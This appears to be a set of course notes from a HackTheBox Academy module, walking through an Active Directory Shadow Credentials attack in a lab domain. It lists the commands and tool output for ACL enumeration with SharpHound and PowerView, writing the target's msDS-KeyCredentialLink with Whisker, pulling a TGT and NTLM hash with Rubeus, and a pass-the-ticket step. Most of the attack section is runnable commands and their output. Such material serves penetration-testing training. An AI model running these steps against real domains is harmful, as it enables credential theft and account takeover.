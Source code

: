 
---
---
## Enumeration from Windows

To identify if we have an account with `GenericAll`, `GenericWrite`, over the target, or `WriteProperty` over the target's `msDS-KeyCredentialLink` attribute, we can use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1), [BloodHound](https://github.com/SpecterOps/BloodHound), [dacledit](https://github.com/ShutdownRepo/impacket/tree/dacledit), and any other tool that allows us to retrieve ACL information out of Active Directory.

Let's start with [BloodHound](https://github.com/SpecterOps/BloodHound) and connect to the target machine using RDP with Jeffry's credentials.

To collect the data, we will use [SharpHound](https://github.com/BloodHoundAD/SharpHound):

```powershell
PS C:\Tools\SharpHound CE> .\SharpHound.exe -c All
```

We must import the SharpHound output file into BloodHound and then search for a path from Jeffry (the account we control) to any other account. Let's check the path from Jeffry to Gabriel:

![text](https://academy.hackthebox.com/storage/modules/255/jeffry_genericAll_gabriel.png)

There's also a path from Jeffry to Monic with `AddKeyCredentialLink`, this means that Jeffry has WriteProperty to this attribute:

![text](https://academy.hackthebox.com/storage/modules/255/jeffry_addkeycredentiallink_monic.png)

Aditionally, we can use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) or [SharpView](https://github.com/tevora-threat/SharpView):

```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $userSID = (Get-DomainUser -Identity jeffry).objectsid
PS C:\Tools> Get-DomainObjectAcl -Identity gabriel | ?{$_.SecurityIdentifier -eq $userSID}

ObjectDN       : CN=Gabriel,CN=Users,DC=lab,DC=local
ObjectSID      : S-1-5-21-2570265163-3918697770-3667495639-4602
ActiveDirectoryRights : GenericAll
BinaryLength     : 36
AceQualifier     : AccessAllowed
IsCallback      : False
OpaqueLength     : 0
AccessMask      : 983551
SecurityIdentifier  : S-1-5-21-2570265163-3918697770-3667495639-4601
AceType       : AccessAllowed
```

---
---
## Abusing Shadow Credentials from Windows

To abuse Shadow Credentials from Windows, we will use [Whisker](https://github.com/eladshamir/Whisker). We can use `Whisker.exe list /target:gabriel` to read the value of the `msDS-KeyCredentialLink` attribute of the target.

```powershell
PS C:\Tools> .\Whisker.exe list /target:gabriel
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Listing deviced for gabriel:
    DeviceID: 462d7a93-f342-a139-96fc-2c750d2f4c89 | Creation Time: 27/04/2024 18:01:17
```

We found one key in this account. To add new credentials, we have two options: We can provide a certificate file that will be used as the alternative credentials for the account, or we can use `.\Whisker.exe add /target:gabriel` to generate the certificate and print the `Rubeus` command needed to retrieve the account's TGT and NTLM hash.

```powershell
PS C:\Tools> .\Whisker.exe add /target:gabriel
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password cw7I7QaHMS44q5xt
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 48d97546-cac9-4e92-981b-e89da231f7a8
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:gabriel /certificate:MIIJuAIBAzCCCXQGC..SNIP...6F9yJkzw28UnNcCs/0aclXHfAwICB9A= /password:"cw7I7QaHMS44q5xt" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show
```

Now we can run `Rubeus` to get the TGT and NTLM hash. We must use the option `/getcredentials` to retrieve the NTLM hash:

```powershell
PS C:\Tools> .\Rubeus.exe asktgt /user:gabriel /certificate:MIIJuAIBAzCCCXQGC..SNIP...6F9yJkzw28UnNcCs/0aclXHfAwICB9A= /password:"cw7I7QaHMS44q5xt" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show /nowrap
```

Now, we have two options for using the output provided by Rubeus: we can use the NT Hash with any of our preferred tools or Gabriel's TGT. Let's use the ticket with Rubeus.

One of the different methods we can use is to create a sacrificial logon session using the Rubeus option `createnetonly`:

```powershell
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /show
  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : True
[*] Username    : TSRS8WIH
[*] Domain     : EW74A3R2
[*] Password    : 85Y3U0HS
[+] Process    : 'powershell.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID   : 3456
[+] LUID      : 0x250d07
```

When we specify the option `/show`, it will display the process we executed. In this case, we run `powershell.exe`. In the new PowerShell window, we need to use `Rubeus ptt` with the option `/ticket:<BASE64 output>` to perform a Pass the Ticket attack:

```powershell
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIGJjCCBiKgAwIBBaEDAgEWooIFRTCCBUFhggU9MIIFOaADA...SNIP...
```

Now, this PowerShell process has Gabriel's TGT, meaning we can use his privileges.

---
---

## Other actions with Whisker

We can use `.\Whisker.exe list /target:gabriel` to list the value of the new credential:

```powershell
PS C:\Tools> .\Whisker.exe list /target:gabriel
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Listing deviced for gabriel:
  DeviceID: 462d7a93-f342-a139-96fc-2c750d2f4c89 | Creation Time: 27/04/2024 18:01:17
  DeviceID: 48d97546-cac9-4e92-981b-e89da231f7a8 | Creation Time: 15/02/2024 15:42:55
```

Additionally, we can use the option `remove` to delete a specific value from the `msDS-KeyCredentialLink` attribute or the option `clear` to remove all values.

```powershell
PS C:\Tools> .\Whisker.exe remove /target:gabriel /deviceid:48d97546-cac9-4e92-981b-e89da231f7a8
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Found value to remove
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```

> Note !

```c
Note: Clearing the msDS-KeyCredentialLink attribute of accounts configured for passwordless authentication will cause disruptions.
```


---
---

[AD-Attacks-Blog](https://happycamper84.medium.com/)
[AD/RedTeaming](https://notes.qazeer.io/active-directory/exploitation-acl_exploiting)
